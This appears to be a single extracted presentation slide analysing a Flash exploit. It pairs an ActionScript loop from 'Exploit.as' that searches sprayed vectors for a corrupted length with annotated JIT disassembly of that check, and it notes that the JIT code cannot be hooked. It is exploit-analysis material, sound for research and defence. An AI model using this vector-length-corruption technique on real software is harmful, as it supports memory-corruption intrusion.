

# JIT-ed Length/Write/Read
| Take vector.length as an example: Exploit.as for(\_loc1\_=0; \_loc1\_<cnt; \_locl\_++) { if(vectors[\_locl\_].length > orig\_length) break; } 03d6042c mov edx,dword ptr [ebp-90h] ; edx is address of arg3 03d60432 mov eax,dword ptr [ebp-94h] ; eax is VectorObject address 03d60438 and eax,0FFFFFFF8h ; atom type address 03d6043b mov dword ptr [ebp-94h],eax 03d60441 je <Unloaded\_oy.dll>+0x3d60671 (03d60672) 03d60447 mov ecx,dword ptr [eax+18h] ; [eax+0x18] is VectorBuffer 03d6044a mov eax,dword ptr [ecx] ; ecx is VectorBuffer and [ecx] is the length of vector 03d6044c mov dword ptr [ebp-98h],eax 03d60452 lea esp,[esp] 03d60455 mov ecx,dword ptr <Unloaded\_oy.dll>+0xa7 (000000a8)[edx] ds:0023:03d44158=00000072 ; <- here 03d6045b mov dword ptr [ebp-9Ch],ecx ; ecx is orig\_length now 03d60461 cmp eax,ecx ; compare vector.length and orig\_length 03d60463 sete dl |
| --- |

We can’t set a hookpoint at dynamic JIT-ed code

Arg3[base+0xa8] = orig_length